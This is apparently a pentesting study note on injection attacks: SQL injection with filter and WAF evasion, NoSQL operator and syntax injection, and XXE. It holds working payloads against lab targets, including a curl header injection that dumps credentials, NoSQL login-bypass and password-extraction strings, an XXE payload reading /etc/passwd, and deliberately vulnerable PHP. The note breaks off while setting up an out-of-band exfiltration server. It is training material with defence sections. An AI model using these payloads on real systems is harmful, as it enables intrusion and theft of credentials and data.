

# Injection Attacks

Master the skills of injection attacks, covering Advanced SQL Injection, Server-Side Template Injection, XXE Injection, LDAP Injection, and NoSQL Injection.

## Advanced SQL Injection

[SQL Injection](../security/webpentesting.md#sql-injection) introduction

nmap target machine's database version and operating system details

```bash
nmap -A -T4 -p 3306,3389,445,139,135 10.10.141.63
```

### Filter Evasion Techniques

In advanced SQL injection attacks, evading filters is crucial for successfully exploiting vulnerabilities. Modern web applications often implement defensive measures to sanitise or block common attack patterns, making simple SQL injection attempts ineffective. As pentesters, we must adapt using more sophisticated techniques to bypass these filters. This section will cover such methods, including **character encoding, no-quote** SQL injection, and handling scenarios where spaces cannot be used. We can effectively penetrate web applications with stringent input validation and security controls by understanding and applying these techniques. 

<span style="font-size: 23px;">**Character Encoding**</span>

Character encoding involves converting special characters in the SQL injection payload into encoded forms that may bypass input filters.

- **URL Encoding**: URL encoding is a common method where characters are represented using a percent (%) sign followed by their ASCII value in hexadecimal. For example, the payload `' OR 1=1--` can be encoded as `%27%20OR%201%3D1--`. This encoding can help the input pass through web application filters and be decoded by the database, which might not recognise it as malicious during initial processing.
- **Hexadecimal Encoding**: Hexadecimal encoding is another effective technique for constructing SQL queries using hexadecimal values. For instance, the query `SELECT * FROM users WHERE name = 'admin'` can be encoded as `SELECT * FROM users WHERE name = 0x61646d696e`. By representing characters as hexadecimal numbers, the attacker can bypass filters that do not decode these values before processing the input.
- **Unicode Encoding**: Unicode encoding represents characters using Unicode escape sequences. For example, the string `admin` can be encoded as `\u0061\u0064\u006d\u0069\u006e`. This method can bypass filters that only check for specific ASCII characters, as the database will correctly process the encoded input.

<span style="font-size: 23px;">**payload**</span>

**URL encoding**

`1' OR 1=1 -- `   →   `1%27%20||%201=1%20--+`   →   `1%27%20%7C%7C%201%3D1%20%2D%2D+`

- `%27` is the URL encoding for the single quote (').
- `%20` is the URL encoding for a space ( ).
- `||` represents the SQL OR operator. `%7C%7C` is the URL encoding for `||`. 
- `%3D` is the URL encoding for the equals sign (=).
- `%2D%2D` is the URL encoding for --, which starts a comment in SQL.
- `+` add a space after the comment, ensuring that the comment is properly terminated and there are no syntax issues.

<span style="font-size: 23px;">**No-Quote SQL Injection**</span>

No-Quote SQL injection techniques are used when the application filters single or double quotes or escapes.

- **Using Numerical Values**: One approach is to use numerical values or other data types that do not require quotes. For example, instead of injecting `' OR '1'='1`, an attacker can use `OR 1=1` in a context where quotes are not necessary. This technique can bypass filters that specifically look for an escape or strip out quotes, allowing the injection to proceed.
- **Using SQL Comments**: Another method involves using SQL comments to terminate the rest of the query. For instance, the input `admin'--` can be transformed into `admin--`, where the `--` signifies the start of a comment in SQL, effectively ignoring the remainder of the SQL statement. This can help bypass filters and prevent syntax errors.
- **Using CONCAT() Function**: Attackers can use SQL functions like `CONCAT()` to construct strings without quotes. For example, `CONCAT(0x61, 0x64, 0x6d, 0x69, 0x6e)` constructs the string admin. The `CONCAT()` function and similar methods allow attackers to build strings without directly using quotes, making it harder for filters to detect and block the payload.

<span style="font-size: 23px;">**No Spaces Allowed**</span>

When spaces are not allowed or are filtered out, various techniques can be used to bypass this restriction.

- **Comments to Replace Spaces**: One common method is to use SQL comments (`/**/`) to replace spaces. For example, instead of `SELECT * FROM users WHERE name = 'admin'`, an attacker can use `SELECT/**/*FROM/**/users/**/WHERE/**/name/**/='admin'`. SQL comments can replace spaces in the query, allowing the payload to bypass filters that remove or block spaces.
- **Tab or Newline Characters**: Another approach is using tab (`\t`) or newline (`\n`) characters as substitutes for spaces. Some filters might allow these characters, enabling the attacker to construct a query like `SELECT\t*\tFROM\tusers\tWHERE\tname\t=\t'admin'`. This technique can bypass filters that specifically look for spaces.
- **Alternate Characters**: One effective method is using alternative URL-encoded characters representing different types of whitespace, such as `%09` (horizontal tab), `%0A` (line feed), `%0C` (form feed), `%0D` (carriage return), and `%A0` (non-breaking space). These characters can replace spaces in the payload. 

<span style="font-size: 23px;">**payload**</span>

**use newline characters to bypass the space filter**

`1' OR 1=1 -- `   →   `1'%0A||%0A1=1%0A--%27+`

<span style="font-size: 23px;">**summary**</span>

To summarise, it is important to understand that no single technique guarantees a bypass when dealing with filters or Web Application Firewalls (WAFs) designed to prevent SQL injection attacks. However, here are some tips and tricks that can be used to circumvent these protections. This table highlights various techniques that can be employed to try and bypass filters and WAFs:


| Scenario                                   | Description                                                                                             | Example                                                                                                                                                                                                                           |
| :----------------------------------------- | :------------------------------------------------------------------------------------------------------ | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Keywords like SELECT are banned**          | SQL keywords can often be bypassed by changing their case or adding inline comments to break them up      | `SElECt * FrOm users` or `SE/**/LECT * FROM/**/users`                                                                                                                                                                                |
| **Spaces are banned**                        | Using alternative whitespace characters or comments to replace spaces can help bypass filters.          | `SELECT%0A%0AFROM%0Ausers` or `SELECT /**/FROM /**/users`                                                                                                                                                                           |
| **Logical operators like AND, OR are banned**  | Using alternative logical operators or concatenation to bypass keyword filters.                         | `username = 'admin' && password = 'password'` or `username = 'admin' /**/||/**/1=1--`                                                                                                                                               |
| **Common keywords like UNION, SELECT are banned** | Using equivalent representations such as hexadecimal or Unicode encoding to bypass filters.             | `SElECt * FROM users WHERE username = CHAR(0x61,0x64,0x69,0x6E)`                                                                                                                                                                    |
| **Specific keywords like OR, AND, SELECT, UNION are banned** | Using obfuscation techniques to disguise SQL keywords by combining characters with string functions or comments. | `SElECt * FROM users WHERE username = CONCAT('a','d','m','i','n')` or `SElECt /**//*/username/**/FROM /**//*/users`                                                                                                                     |

---

### Other Techniques

Advanced SQL injection involves a range of sophisticated methods that go beyond basic attacks. Here are a few important advanced techniques that pentesters should be aware of:

<span style="font-size: 23px;">**HTTP Header Injection**</span>

HTTP headers can carry user input, which might be used in SQL queries on the server side. user-agent injectionIf these inputs are not sanitised, it can lead to SQL injection. The technique involves manipulating HTTP headers (like **User-Agent**, **Referer**, or **X-Forwarded-For**) to inject SQL commands. The server might log these headers or use them in SQL queries. For example, a malicious User-Agent header would look like `User-Agent: ' OR 1=1; --`. If the server includes the User-Agent header in an SQL query without sanitising it, it can result in SQL injection.

**payload**

`' UNION SELECT username, password FROM user; #`

- **Close the Existing String Literal**: The initial single quote (`'`) is used to close the existing string literal in the SQL query.
- **Inject a UNION SELECT Statement**: The `UNION SELECT username, password FROM user;` part of the payload is used to retrieve the username and password columns from the user table.
- **Comment Out the Rest of the Query**: The `#` character is used to comment out the remainder of the SQL query, ensuring that any subsequent SQL code is ignored.

We need to send this payload as part of the User-Agent header in our HTTP request to inject this payload, which could be done using tools like **Burp Suite** or **cURL**. We will use the curl command-line tool to send an HTTP request with a custom User-Agent header. Open a Terminal and access your command line interface. Use the following command to send the request with the custom `User-Agent` header:

`curl -H "User-Agent: ' UNION SELECT username, password FROM user; # " http://10.10.212.226/httpagent/`

The server's response will be displayed in the terminal. If the SQL injection is successful, you will see the extracted data (usernames and passwords) in the response.

<span style="font-size: 23px;">**Exploiting Stored Procedures**</span>

Stored procedures are routines stored in the database that can perform various operations, such as inserting, updating, or querying data. While stored procedures can help improve performance and ensure consistency, they can also be vulnerable to SQL injection if not properly handled.


Stored procedures are precompiled SQL statements that can be executed as a single unit. They are stored in the database and can be called by applications to perform specific tasks. Stored procedures can accept parameters, which can make them flexible and powerful. However, if these parameters are not properly sanitised, they can introduce SQL injection vulnerabilities.

Consider a stored procedure designed to retrieve user data based on a username:

```sql
CREATE PROCEDURE sp_getUserData
    @username NVARCHAR(50)
AS
BEGIN
    DECLARE @sql NVARCHAR(4000)
    SET @sql = 'SELECT * FROM users WHERE username = ''' + @username + ''''
    EXEC(@sql)
END
```

In this example, the stored procedure concatenates the @username parameter into a dynamic SQL query. This approach is vulnerable to SQL injection because the input is not sanitised.

<span style="font-size: 23px;">**XML and JSON Injection**</span>

Applications that parse XML or JSON data and use the parsed data in SQL queries can be vulnerable to injection if they do not properly sanitise the inputs. XML and JSON injection involves injecting malicious data into XML or JSON structures that are then used in SQL queries. This can occur if the application directly uses parsed values in SQL statements.

```json
{
  "username": "admin' OR '1'='1--",
  "password": "password"
}
```

If the application uses these values directly in a SQL query like `SELECT * FROM users WHERE username = 'admin' OR '1'='1'-- AND password = 'password'`, it could result in an injection.

---

### Automation 

SQL Injection remains a common threat due to improper implementation of security measures and the complexity of different web frameworks. Automating identification and exploiting these vulnerabilities can be challenging, but several tools and techniques have been developed to help streamline this process.

<span style="font-size: 23px;">**Major Issues During Identification**</span>

Identifying SQL Injection vulnerabilities involves several challenges, similar to identifying any other server-side vulnerability. Here are the key issues:

- **Dynamic Nature of SQL Queries**: SQL queries can be dynamically constructed, making it difficult to detect injection points. Complex queries with multiple layers of logic can obscure potential vulnerabilities.
- **Variety of Injection Points**: SQL Injection can occur in different parts of an application, including input fields, HTTP headers, and URL parameters. Identifying all potential injection points requires thorough testing and a comprehensive understanding of the application.
- **Use of Security Measures**: Applications may use prepared statements, parameterized queries, and ORM frameworks, which can prevent SQL Injection. Automated tools must be able to differentiate between safe and unsafe query constructions.
- **Context-Specific Detection**: The context in which user inputs are used in SQL queries can vary widely. Tools must adapt to different contexts to accurately identify vulnerabilities.

<span style="font-size: 23px;">**Few Important Tools**</span>

Several renowned tools and projects have been developed within the security community to aid in the automation of finding SQL Injection vulnerabilities. Here are a few well-known tools and GitHub repositories that provide functionalities for detecting and exploiting SQL Injection:

- [SQLMap](https://github.com/sqlmapproject/sqlmap): SQLMap is an open-source tool that automates the process of detecting and exploiting SQL Injection vulnerabilities in web applications. It supports a wide range of databases and provides extensive options for both identification and exploitation. You can learn more about the tool here.
- [SQLNinja](https://github.com/xxgrunge/sqlninja): SQLNinja is a tool specifically designed to exploit SQL Injection vulnerabilities in web applications that use Microsoft SQL Server as the backend database. It automates various stages of exploitation, including database fingerprinting and data extraction. 
- [JSQL Injection](https://github.com/ron190/jsql-injection): A Java library focused on detecting SQL injection vulnerabilities within Java applications. It supports various types of SQL Injection attacks and provides a range of options for extracting data and taking control of the database.
- [BBQSQL](https://github.com/CiscoCXSecurity/bbqsql): BBQSQL is a Blind SQL Injection exploitation framework designed to be simple and highly effective for automated exploitation of Blind SQL Injection vulnerabilities. 

Automating the identification and exploitation of SQL injection vulnerabilities is crucial for maintaining web application security. Tools like SQLMap, SQLNinja, and BBQSQL provide powerful capabilities for detecting and exploiting these vulnerabilities. However, it's important to understand the limitations of automated tools and the need for manual analysis and validation to ensure comprehensive security coverage. By integrating these tools into your security workflow and following best practices for input validation and query construction, you can effectively mitigate the risks associated with SQL Injection vulnerabilities.

---

### Best Practices

SQL injection is a renowned and pervasive vulnerability that has been a major concern in web application security for years. Pentesters must pay special attention to this vulnerability during their assessments, as it requires a thorough understanding of various techniques to identify and exploit SQL injection points. Similarly, secure coders must prioritise safeguarding their applications by implementing robust input validation and adhering to secure coding practices to prevent such attacks. A few of the best practices are mentioned below: 

<span style="font-size: 23px;">**Secure Coders**</span>

- **Parameterised Queries and Prepared Statements**: Use parameterised queries and prepared statements to ensure all user inputs are treated as data rather than executable code. This technique helps prevent SQL injection by separating the query structure from the data. For example, in PHP with PDO, you can prepare a statement and bind parameters, which ensures that user inputs are safely handled like `$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username"); $stmt->execute(['username' => $username]);`.
- **Input Validation and Sanitisation**: Implement strong input validation and sanitization to ensure that inputs conform to expected formats. Validate data types, lengths, and ranges, and reject any input that does not meet these criteria. Use built-in functions such as `htmlspecialchars()` and `filter_var()` in PHP to sanitise inputs effectively.
- **Least Privilege Principle**: Apply the principle of least privilege by granting application accounts the minimum necessary database permissions. Avoid using database accounts with administrative privileges for everyday operations. This minimises the potential impact of a successful SQL injection attack by limiting the attacker's access to critical database functions.
- **Stored Procedures**: Encapsulate and validate SQL logic using stored procedures. This allows you to control and validate the inputs within the database itself, reducing the risk of SQL injection. Ensure that stored procedures accept only validated inputs and are designed to handle input sanitization internally.
- **Regular Security Audits and Code Reviews**: Conduct regular security audits and code reviews to identify and address vulnerabilities. Automated tools can help scan for SQL injection risks, but manual reviews are also essential to catch subtle issues. Regular audits ensure that your security practices stay up-to-date with evolving threats.

<span style="font-size: 23px;">**Pentesters**</span>

- **Exploiting Database-Specific Features**: Different database management systems (DBMS) have unique features and syntax. A pentester should understand the specifics of the target DBMS (e.g., MySQL, PostgreSQL, Oracle, MSSQL) to exploit these features effectively. For instance, MSSQL supports the `xp_cmdshell` command, which can be used to execute system commands.
- **Leveraging Error Messages**: Exploit verbose error messages to gain insights into the database schema and structure. Error-based SQL injection involves provoking the application to generate error messages that reveal useful information. For example, using 1' AND 1=CONVERT(int, (SELECT @@version)) -- can generate errors that leak version information.
- **Bypassing WAF and Filters**: Test various obfuscation techniques to bypass Web Application Firewalls (WAF) and input filters. This includes using mixed case (SeLeCt), concatenation (CONCAT(CHAR(83), CHAR(69), CHAR(76), CHAR(69), CHAR(67), CHAR(84))), and alternate encodings (hex, URL encoding). Additionally, using inline comments (/**/) and different character encodings (e.g., %09, %0A) can help bypass simple filters.
- **Database Fingerprinting**: Determine the type and version of the database to tailor the attack. This can be done by sending specific queries that yield different results depending on the DBMS. For instance, SELECT version() works on PostgreSQL, while SELECT @@version works on MySQL and MSSQL.
- **Pivoting with SQL Injection**: Use SQL injection to pivot and exploit other parts of the network. Once a database server is compromised, it can be used to gain access to other internal systems. This might involve extracting credentials or exploiting trust relationships between systems.

Advanced SQL injection testing requires a deep understanding of various techniques and the ability to adapt to different environments. Pentesters should employ various methods, from exploiting database-specific features to bypassing sophisticated filters to thoroughly assessing and exploiting SQL injection vulnerabilities. Methodically documenting each step ensures a comprehensive evaluation of the application's security.

## NoSQL Injection

### MongoDB

<span style="font-size: 23px;">**key terms**</span>

- **document** : information isn't stored on tables but rather in documents.
- **collection**: MongoDB allows you to group multiple documents with a similar function together in higher hierarchy structures called collections for organizational purposes. Collections are the equivalent of tables in relational databases.
- **database**: Multiple collections are finally grouped in databases, which is the highest hierarchical element in MongoDB. In relational databases, the database concept groups tables together. In MongoDB, it groups related collections.


<span style="font-size: 23px;">**Querying the Database**</span>

NoSQL **filters** rely on creating a **structured array**.


`['last_name' => 'Sandler']` :  build a filter so that only the documents where the last_name is "Sandler" are retrieved

`['gender' => 'male', 'last_name' => 'Phillips']` : filter the documents where the gender is male, and the last_name is Phillips

`['age' => ['$lt'=>'50']]` :  retrieve all documents where the age is less than 50

Operators allow for more complex filters by nesting conditions. A complete reference of possible operators can be found on the following link:

[MongoDB Operator Reference](https://www.mongodb.com/docs/manual/reference/operator/query/)

---

### NoSQL Injection

<span style="font-size: 23px;">**Injection is Injection**</span>

While it may seem complex to think about NoSQL Injection, when we boil down injection attacks to their very essence, we can understand the similarities between SQL Injection and NoSQL Injection.

The root cause of an injection attack is that improper concatenation of untrusted user input into a command can allow an attacker to alter the command itself. With SQL injection, the most common approach is to inject a single or double quote, that terminates the current data concatenation and allows the attacker to modify the query. The same approach applies to NoSQL Injection. If untrusted user input is directly added to the query, we have the opportunity to modify the query itself. However, with NoSQL Injection, even if we can't escape the current query, we still have the opportunity to manipulate the query itself. Therefore, there are two main types of NoSQL Injection:

- **Syntax Injection** - This is similar to SQL injection, where we have the ability to break out of the query and inject our own payload. The key difference to SQL injection is the syntax used to perform the injection attack.
- **Operator Injection**—Even if we can't break out of the query, we could potentially inject a NoSQL query operator that manipulates the query's behaviour, allowing us to stage attacks such as authentication bypasses.

<span style="font-size: 23px;">**How to Inject NoSQL**</span>

Unlike SQL injection, where queries were normally built by simple string concatenation, NoSQL queries require nested associative arrays. From an attacker's point of view, this means that to inject NoSQL, one must be able to inject arrays into the application.

Luckily for us, many server-side programming languages allow passing array variables by using a special syntax on the query string of an HTTP Request. 

---

### Operator Injection 

<span style="font-size: 23px;">**Bypassing the Login Screen**</span>

 

`user=attacker&pass=pas123`     →     `user[$ne]=attacker&pass[$ne]=pas123`

- `$ne` Matches all values that are not equal to a specified value.

This would translate to a filter that has the following structure:

`['username'=>['$ne'=>'attacker'], 'password'=>['$ne'=>'pas123']]`

<span style="font-size: 23px;">**Logging in as Other Users**</span>

`user[$nin][]=admin&pass[$ne][]=aweasdf`
- `$nin` Matches none of the values specified in an array.

This would translate to a filter that has the following structure:

`['username'=>['$nin'=>['admin'] ], 'password'=>['$ne'=>'aweasdf']]`

Which tells the database to return any user for whom the username isn't admin and the password isn't aweasdf. As a result, we are now granted access to another user's account.

Notice that the $nin operator receives a list of values to ignore. We can continue to expand the list by adjusting our payload

`user[$nin][]=admin&user[$nin][]=pedro&pass[$ne]=aweasdf`   →

`['username'=>['$nin'=>['admin', 'pedro'] ], 'password'=>['$ne'=>'aweasdf']]`

<span style="font-size: 23px;">**Extracting Users' Passwords**</span>

`user=admin&pass[$regex]=^.{8}&remember=on`

- `$regex` Selects documents where values match a specified regular expression.
- `^.{8}` password length 8

`user=admin&pass[$regex]=^a.......&remember=on`

- `^1.......` first letter of admin's password is 'a' and password length 8 


---

### Syntax Injection

<span style="font-size: 23px;">**Finding Syntax Injection**</span>

`'` is a common character that used to test for injection in both SQL and NoSQL solutions.

`admin'`

```bash
syntax@10.10.96.121's password: 
Please provide the username to receive their email:admin'
Traceback (most recent call last):
  File "/home/syntax/script.py", line 17, in <module>
    for x in mycol.find({"$where": "this.username == '" + username + "'"}):
  File "/usr/local/lib/python3.6/dist-packages/pymongo/cursor.py", line 1248, in next
```
The following line in the error message shows us that there is Syntax Injection:

`for x in mycol.find({"$where": "this.username == '" + username + "'"}):`

We can see that the username variable is directly concatenated to the query string and that a JavaScript function is being executed in the find command, allowing us to inject into the syntax. In this case, we have verbose error messages to give us an indication that injection is possible. However, even without verbose error messages, we could test for Syntax Injection by providing both a false and true condition and seeing that the output differs, as shown in the example below:

```bash
ssh syntax@10.10.96.121
syntax@10.10.96.121's password: 
Please provide the username to receive their email:admin' && 0 && 'x
Connection to 10.10.96.121 closed.

ssh syntax@10.10.96.121
syntax@10.10.96.121's password: 
Please provide the username to receive their email:admin' && 1 && 'x
admin@nosql.int
Connection to 10.10.96.121 closed.
```
<span style="font-size: 23px;">**Exploiting Syntax Injection**</span>

Now that we have confirmed Syntax Injection, we can leverage this injection point to dump all email addresses. To do this, we want to ensure that the testing statement of the condition always evaluates to true. As we are injecting into the JavaScript, we can use the payload of  `'||1||'`. Let's use this to disclose sensitive information:

```bash
root@ip-10-10-5-166:~# ssh syntax@10.10.96.121
syntax@10.10.96.121's password: 
Please provide the username to receive their email:admin'||1||'
admin@nosql.int
pcollins@nosql.int
jsmith@nosql.int
Syntax@Injection.FTW
Connection to 10.10.96.121 closed.
```

<span style="font-size: 23px;">**The Exception to the Rule**</span>

It is worth noting that for Syntax Injection to occur, the developer has to create custom JavaScript queries. The same function could be performed using the built-in filter functions where `['username' : username]` would return the same result but not be vulnerable to injection. As such, Syntax Injection is rare to find, as it means that the developers are not using the built-in functions and filters. While some complex queries might require direct JavaScript, it is always recommended to avoid this to prevent Syntax Injection. The example shown above is for MongoDB; for other NoSQL solutions, similar Syntax Injection cases may exist, but the actual syntax will be different.

---

### Defences

To defend against NoSQL Injection attacks, the key remediation is to ensure that there isn't any confusion between what is the query and what is user input. This can be resolved by making use of parameterised queries, which split the query command and user input, meaning that the engine cannot be confused. Furthermore, the built-in functions and filters of the NoSQL solution should always be used to avoid Syntax Injection. Lastly, input validation and sanitisation can also be used to filter for syntax and operator characters and remove them.

## XXE Injection

**XXE (XML External Entity) injection** is a type of security flaw that exploits vulnerabilities in an application's [XML] input. It occurs when an application accepts XML input that includes external entity references within the XML itself. Attackers can leverage this vulnerability to disclose local files, make server-side requests, or execute remote code.

### XML

XML 是一种可扩展标记语言 (eXtensible Markup Language)。它设计用于传输和存储数据，而不是像 HTML 那样用于显示数据。XML 也用于配置文件 ，例如 Web 服务器配置或应用程序设置。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<user id="1">
   <name>John</name>
   <age>30</age>
   <address>
      <street>123 Main St</street>
      <city>Anytown</city>
   </address>
</user>
```

- **tag(标签)** XML elements are represented by tags, which are surrounded by angle brackets (<>). Tags usually come in pairs, with the opening tag preceding the content and the closing tag following the content. 
- **element(元素)** The tag `<name>John</name>` represents an element named "name" with the content "John".
- **Attributes(属性)** provide additional information about elements and are specified within the opening tag. The tag `<user id="1">` specifies an attribute "id" with the value "1" for the element "user". 
- **Character data** refers to the content within elements, such as "John".
- **结构化**： XML 使用树形结构来组织数据，包含根元素、子元素和属性。这种层次结构使得数据易于理解和机器解析。

The example above shows a simple XML document with elements, attributes, and character data.The tag `<?xml version="1.0" encoding="UTF-8"?>` declaration indicates the XML version, and the element contains various sub-elements and attributes representing user data.

<span style="font-size: 23px;">**XSLT**</span>

**XSLT (Extensible Stylesheet Language Transformations)** is a language used to transform and format XML documents. While XSLT is primarily used for data transformation and formatting, it is also significantly relevant to XXE (XML External Entities) attacks.

XSLT can be used to facilitate XXE attacks in several ways:

1. **Data Extraction**: XSLT can be used to extract sensitive data from an XML document, which can then be used in an XXE attack. For example, an XSLT stylesheet can extract user credentials or other sensitive information from an XML file.
2. **Entity Expansion**: XSLT can expand entities defined in an XML document, including external entities. This can allow an attacker to inject malicious entities, leading to an XXE vulnerability.
3. **Data Manipulation**: XSLT can manipulate data in an XML document, potentially allowing an attacker to inject malicious data or modify existing data to exploit an XXE vulnerability.
4. **Blind XXE**: XSLT can be used to perform blind XXE attacks, in which an attacker injects malicious entities without seeing the server's response.

<span style="font-size: 23px;">**DTDs**</span>

DTDs or Document Type Definitions define the structure and constraints of an XML document. They specify the allowed elements, attributes, and relationships between them. DTDs can be internal within the XML document or external in a separate file.

Purpose and usage of DTDs:

- **Validation**: DTDs validate the structure of XML to ensure it meets specific criteria before processing, which is crucial in environments where data integrity is key.
- **Entity Declaration**: DTDs define entities that can be used throughout the XML document, including external entities which are key in XXE attacks.

Internal DTDs are specified using the `<!DOCTYPE` declaration, while external DTDs are referenced using the SYSTEM keyword. The `<!ELEMENT` declarations specify the allowed elements and their relationships.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE config [
<!ELEMENT config (database)>
<!ELEMENT database (username, password)>
<!ELEMENT username (#PCDATA)>
<!ELEMENT password (#PCDATA)>
]>
<config>
<!-- configuration data -->
</config>
```

DTDs play a crucial role in XXE injection, as they can be used to declare external entities. External entities can reference external files or URLs, which can lead to malicious data or code injection.

<span style="font-size: 23px;">**XML Entities**</span>

XML entities are placeholders for data or code that can be expanded within an XML document. There are five types of entities: internal entities, external entities, parameter entities, general entities, and character entities.

Example external entity:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY external SYSTEM "http://example.com/test.dtd">
<config>
&external;
</config>
```
This shows an external entity referencing a URL. The `&external;` reference within the XML document will be expanded to the contents of the referenced URL.

<span style="font-size: 23px;">**Types of Entities**</span>

1. Internal Entities are essentially variables used within an XML document to define and substitute content that may be repeated multiple times. They are defined in the DTD (Document Type Definition) and can simplify the management of repetitive information. For example:

```xml
<!DOCTYPE note [
<!ENTITY inf "This is a test.">
]>
<note>
        <info>&inf;</info>
</note>
```
In this example, the `&inf;` entity is replaced by its value wherever it appears in the document.

2. External Entities are similar to internal entities, but their contents are referenced from outside the XML document, such as from a separate file or URL. This feature can be exploited in XXE (XML External Entity) attacks if the XML processor is configured to resolve external entities. For example:
  
```xml
<!DOCTYPE note [
<!ENTITY ext SYSTEM "http://example.com/external.dtd">
]>
<note>
        <info>&ext;</info>
</note>
```
Here, `&ext;` pulls content from the specified URL, which could be a security risk if the URL is controlled by an attacker.

3. Parameter Entities are special types of entities used within DTDs to define reusable structures or to include external DTD subsets. They are particularly useful for modularizing DTDs and for maintaining large-scale XML applications. For example:

```xml
<!DOCTYPE note [
<!ENTITY % common "CDATA">
<!ELEMENT name (%common;)>
]>
<note>
        <name>John Doe</name>
</note>
```
In this case, `%common;` is used within the DTD to define the type of data that the `name` element should contain.

4. General Entities are similar to variables and can be declared either internally or externally. They are used to define substitutions that can be used within the body of the XML document. Unlike parameter entities, general entities are intended for use in the document content. For example:

```xml
<!DOCTYPE note [
<!ENTITY author "John Doe">
]>
<note>
        <writer>&author;</writer>
</note>
```
The entity `&author;` is a general entity used to substitute the author's name wherever it's referenced in the document.

5. Character Entities are used to represent special or reserved characters that cannot be used directly in XML documents. These entities prevent the parser from misinterpreting XML syntax. For example:

- `&lt;` for the less-than symbol (`<`)
- `&gt;` for the greater-than symbol (`>`)
- `&amp;` for the ampersand (`&`)

```xml
<note>
        <text>Use &lt; to represent a less-than symbol.</text>
</note>
```
This usage ensures that the special characters are processed correctly by the XML parser without breaking the document's structure.

The image below shows the type of entities in a DOM structure:


---

### XML Parsing Mechanisms

<span style="font-size: 23px;">**XML Parsing**</span>

XML parsing is the process by which an XML file is read, and its information is accessed and manipulated by a software program. XML parsers convert data from XML format into a structure that a program can use (like a DOM tree). During this process, parsers may validate XML data against a schema or a DTD, ensuring the structure conforms to certain rules.

If a parser is configured to process external entities, it can lead to unauthorized access to files, internal systems, or external websites.

<span style="font-size: 23px;">**Common XML Parsers**</span>

Several XML parsers are used across different programming environments; each parser may handle XML data differently, which can affect vulnerability to XXE injection.

- **DOM (Document Object Model) Parser**: This method builds the entire XML document into a memory-based tree structure, allowing random access to all parts of the document. It is resource-intensive but very flexible.
- **SAX (Simple API for XML) Parser**: Parses XML data sequentially without loading the whole document into memory, making it suitable for large XML files. However, it is less flexible for accessing XML data randomly.
- **StAX (Streaming API for XML) Parser**: Similar to SAX, StAX parses XML documents in a streaming fashion but gives the programmer more control over the XML parsing process.
- **XPath Parser**: Parses an XML document based on expression and is used extensively in conjunction with XSLT.

---

### Exploiting XXE

<span style="font-size: 23px;">**In-Band vs Out-of-Band XXE**</span>

In-band XXE refers to an XXE vulnerability where the attacker can see the response from the server. This allows for straightforward data exfiltration and exploitation. The attacker can simply send a malicious XML payload to the application, and the server will respond with the extracted data or the result of the attack.

Out-of-band XXE, on the other hand, refers to an XXE vulnerability where the attacker cannot see the response from the server. This requires using alternative channels, such as DNS or HTTP requests, to exfiltrate data. To extract the data, the attacker must craft a malicious XML payload that will trigger an out-of-band request, such as a DNS query or an HTTP request.

<span style="font-size: 23px;">**In-Band XXE Exploitation**</span>


The submitted data is processed by `contact_submit.php`, which contains a vulnerable PHP code designed to return the value of the name parameter when a user submits a message in the form. Below is the vulnerable code:

```php
libxml_disable_entity_loader(false);

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $xmlData = file_get_contents('php://input');

    $doc = new DOMDocument();
    $doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD); 

    $expandedContent = $doc->getElementsByTagName('name')[0]->textContent;

    echo "Thank you, " .$expandedContent . "! Your message has been received.";
}
```
Since the application returns the value of the name parameter, we can inject an entity that is pointing to `/etc/passwd` to disclose its values.

**initial XML**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<contact>
   <name>test</name>
   <email>test@test.com</email>
   <message>test msg</message>
</contact>
```
**payload**

```xml
<!DOCTYPE foo [

<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
   <name>&xxe;</name>
   <email>test@test.com</email>
   <message>test</message>
</contact>
```
Using the payload above, replace the initial XML data submitted to contact_submit.php and resend the request.


**XML Entity Expansion**

XML Entity Expansion is a technique often used in XXE attacks that involves defining entities within an XML document, which the XML parser then expands. Attackers can abuse this feature by creating recursive or excessively large entities, leading to a Denial of Service (DoS) attack or defining external entities referencing sensitive files or services. This method is central to both in-band and out-of-band XXE, as it allows attackers to inject malicious entities into the XML data. For example:

```xml
<!DOCTYPE foo [

<!ELEMENT foo ANY >
<!ENTITY xxe "This is a test message" >]>
<contact>
   <name>&xxe; &xxe;</name>
   <email>test@test.com</email>
   <message>test</message>
</contact>
```
In the payload above, `&xxe;` is expanded wherever it appears. Attackers can use entity expansion to perform a **[Billion Laughs attack](../explanation.md#billion-laughs-attack)**, where a small XML document recursively expands to consume server resources, leading to a denial of service.


<span style="font-size: 23px;">**Out-Of-Band XXE Exploiting**</span>

The application uses the below code when a user uploads a file:

```php
libxml_disable_entity_loader(false);
$xmlData = file_get_contents('php://input'); 

$doc = new DOMDocument();
$doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD);

$links = $doc->getElementsByTagName('file');

foreach ($links as $link) {
    $fileLink = $link->nodeValue;
    $stmt = $conn->prepare("INSERT INTO uploads (link, uploaded_date) VALUES (?, NOW())");
    $stmt->bind_param("s", $fileLink);
    $stmt->execute();
    
    if ($stmt->affected_rows > 0) {
        echo "Link saved successfully.";
    } else {
        echo "Error saving link.";
    }
    
    $stmt->close();
}
```
The code above doesn't return the values of the submitted XML data. Hence, the term Out-of-Band since the exfiltrated data has to be captured using an attacker-controlled server.

For this attack, we will need a server that will receive data from other servers. You can use Python's http.server module, although there are options out there, like Apache or Nginx. Using AttackBox or your own machine, start a Python web server by using the command:

```bash
user@tryhack $ python3 -m http.server 1337
